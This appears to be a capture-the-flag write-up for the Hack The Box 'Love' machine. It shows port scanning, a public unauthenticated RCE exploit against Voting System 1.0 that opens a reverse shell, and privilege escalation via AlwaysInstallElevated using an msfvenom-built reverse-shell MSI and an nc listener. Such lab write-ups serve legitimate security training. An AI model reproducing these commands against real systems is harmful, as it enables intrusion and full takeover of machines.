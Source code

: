 ## Default Information
IP address : 10.10.10.239\
OS : Windows

## Discovery
Before we begin, let's first add the IP address ```10.10.10.239``` to ```love.htb``` in our ```/etc/hosts``` file. 

```
10.10.10.239    love.htb
```

### Nmap
Firstly, let us enumerate all the TCP open ports

```
Nmap scan report for love.htb (10.10.10.239)
Host is up, received user-set (0.35s latency).
Scanned at 2022-10-09 00:42:35 EDT for 66s
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack
135/tcp  open  msrpc        syn-ack
139/tcp  open  netbios-ssn  syn-ack
443/tcp  open  https        syn-ack
445/tcp  open  microsoft-ds syn-ack
3306/tcp open  mysql        syn-ack
5000/tcp open  upnp         syn-ack
```

### Enumerating Port 80
Navigating to http://love.htb:80, we notice that we are using Voting System and afterwards, we are able to find an unauthenticated remote code execution for Voting System from [here](https://www.exploit-db.com/exploits/49846)

Using the exploit script from [here](https://github.com/SamSepiolProxy/Voting-System-1.0-Unauth-RCE), we are able to execute a reverse shell connection

```
┌──(HTB)─(kali㉿kali)-[~/Desktop/htb_labs/love/Voting-System-1.0-Unauth-RCE]
└─$ python3 exploit.py -t 10.10.10.239 -i 10.10.16.4 -r 80
/home/kali/Desktop/HTB/lib/python3.9/site-packages/requests/__init__.py:87: RequestsDependencyWarning: urllib3 (1.26.9) or chardet (5.0.0) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "
Start a NC listner on the port you choose above and run...
Logged in
Poc sent successfully
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------
C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe

C:\xampp\htdocs\omrs\images>
```

### Obtaining user.txt

```
C:\Users\Phoebe>whoami && hostname && ipconfig && type C:\Users\Phoebe\Desktop\user.txt
whoami && hostname && ipconfig && type C:\Users\Phoebe\Desktop\user.txt
love\phoebe
Love
Windows IP Configuration
Ethernet adapter Ethernet0 2:
   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.239
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
<Redacted user.txt>
```

### Privilege Escalation (administrator)
Using PowerUp.ps1, we realize that the ```AlwaysInstallElevated``` registry key is enabled. This means that we can install a ```.msi``` package to spawn a reverse shell connection with administrative privileges

```
Check         : AlwaysInstallElevated Registry Key
AbuseFunction : Write-UserAddMSI
```

Next, we will have to use ```msfvenom``` to create the malicious ```.msi``` package

```
┌──(kali㉿kali)-[~/Desktop/htb_labs/love]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.4 LPORT=80 -f msi -o shell.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
Saved as: shell.msi
```

Afterwards, we will transfer the ```shell.msi``` to the remote server and execute the payload using msiexec command

```
C:\temp>msiexec /quiet /qn /i C:\temp\shell.msi
msiexec /quiet /qn /i C:\temp\shell.msi
-----------------------------------------------------
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.239] 56213
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```

### Obtaining root.txt

```
C:\Users\Administrator\Desktop>hostname && whoami && ipconfig && type C:\Users\Administrator\Desktop\root.txt
hostname && whoami && ipconfig && type C:\Users\Administrator\Desktop\root.txt
Love
nt authority\system
Windows IP Configuration
Ethernet adapter Ethernet0 2:
   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.239
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
<Redacted root flag>
```
